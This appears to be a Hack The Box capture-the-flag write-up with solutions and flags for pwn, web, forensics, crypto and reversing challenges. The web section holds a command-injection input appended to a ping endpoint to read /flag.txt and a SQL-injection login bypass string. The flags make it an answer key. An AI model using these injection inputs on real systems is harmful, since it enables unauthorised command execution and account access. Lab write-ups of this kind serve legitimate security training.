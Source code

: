# PWN:
    
## Initialise Connection:
nc 165.232.100.46 30002
```HTB{g3t_r34dy_f0r_s0m3_pwn}```

## Questionnaire:
nc 165.232.98.69 30697
64-bit
Dynamic
vuln()
0x20
gg()
fgets()
40
gdb ./test -> gdb p gg
0x401176
```HTB{th30ry_bef0r3_4cti0n}```

    

# Web:

## Trapped Source:
Keypad PIN hardcoded in page source:
        
    window.CONFIG = window.CONFIG || {
        buildNumber: "v20190816",
        debug: false,
        modelName: "Valencia",
        correctPin: "8291",
    }

```HTB{V13w_50urc3_c4n_b3_u53ful!!!}```

## Gunhead:
Source reveals that user input is passed directly to curl command via ping command
execute arbitrary commands by appending to ping e.g. /ping localhost; whoami
flag in /flag.txt -> /ping localhost; cat /flag.txt
```HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}```

## Drobots:
Bypass login with SQL injection
username: " or ""="
password: " or ""="    
```HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}```

# Forensics:

## Plaintext Treasure:
Open wireshark
Statistics -> Conversations (only two endpoints)
tab TCP, notice port 1337
Filter tcp.port == 1337 && http
first packet is POST/token -> follow HTTP stream
```password is HTB{th3s3_4l13ns_st1ll_us3_HTTP}```

## Alien Cradle:
Open powershell script, find this line:
'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}
Remove '+' signs and concatenate string:
```HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}```

# Crypto:

## Ancient Encodings:
Python script shows input text is base64 encoded then converted to hex:
Use python or cyberchef or another tool:
convert hex to string (from hex)
base64 decode
```HTB{1n_y0ur_j0urn3y_y0u_wi1l_se3_th15_enc0d1ngs_ev3rywher3}```
        
# Reversing:

## Hunting License
nc 206.189.112.129 31332 (questionnaire)
Answers:
```elf```
```x86_64```
```libreadline.so.8``` (ldd license | strings license | ghidra)
```00401172``` (memory address of main, gdb license -> info functions | ghidra)
```5```(how many puts in main, gdb or ghidra)
```PasswordNumeroUno``` (strings license)
```0wTdr0wss4P``` (strings license)
```P4ssw0rdTw0``` (reverse above)

Third pass:
G{zawR}wUz}r (strings license)
0x13 (XOR key for above, cyberchef XOR brute force)
ThirdAndFina.. (first half of password(?))
